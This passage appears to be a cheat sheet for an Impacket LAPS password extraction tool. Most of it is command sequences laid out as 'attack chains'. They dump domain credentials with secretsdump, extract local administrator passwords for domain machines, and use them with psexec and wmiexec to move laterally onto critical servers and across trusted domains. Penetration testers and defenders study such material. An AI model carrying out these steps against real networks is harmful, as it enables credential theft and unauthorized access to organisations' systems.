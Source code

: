 ### Advanced Authentication
```bash
# Use AES key for Kerberos
python3 GetLAPSPassword.py -aesKey 32characterhexkey -k domain.com/admin

# No password prompt (for Kerberos ticket cache)
python3 GetLAPSPassword.py -no-pass -k domain.com/admin

# Anonymous binding (if allowed by domain policy)
python3 GetLAPSPassword.py domain.com/
```

## Attack Chain Integration

### Post-Compromise LAPS Extraction
```bash
# Step 1: Obtain domain credentials through various methods
python3 secretsdump.py domain.com/user:password@dc.domain.com

# Step 2: Use obtained credentials to extract LAPS passwords
python3 GetLAPSPassword.py -hashes :extracted_hash domain.com/admin

# Step 3: Use LAPS passwords for lateral movement
python3 psexec.py ./administrator:extracted_laps_password@target-computer.domain.com
```

### LAPS Enumeration for Privilege Escalation
```bash
# Step 1: Enumerate LAPS passwords from compromised account
python3 GetLAPSPassword.py domain.com/low_priv_user:password -outputfile laps_enum.txt

# Step 2: Identify high-value targets with accessible LAPS passwords
grep -i "dc\|server\|admin" laps_enum.txt

# Step 3: Use LAPS passwords to access critical systems
python3 wmiexec.py ./administrator:laps_password@critical-server.domain.com
```

### Cross-Domain LAPS Extraction
```bash
# Step 1: Extract LAPS passwords from parent domain
python3 GetLAPSPassword.py parent.domain.com/admin:password

# Step 2: Extract LAPS passwords from child domains
python3 GetLAPSPassword.py child.parent.domain.com/admin:password

# Step 3: Extract LAPS passwords from trusted domains
python3 GetLAPSPassword.py trusted.domain.com/admin:password
```

### LAPS v2 Specific Operations
```bash
# Step 1: Identify LAPS v2 environments (Windows Server 2022+)
python3 GetLAPSPassword.py -debug domain.com/admin:password -computer WIN11-CLIENT

# Step 2: Ensure proper RPC connectivity for GKDI key retrieval
python3 GetLAPSPassword.py -dc-ip 192.168.1.10 domain.com/admin:password

# Step 3: Handle encrypted password blobs with key caching
python3 GetLAPSPassword.py domain.com/admin:password -outputfile lapsv2_results.txt
```
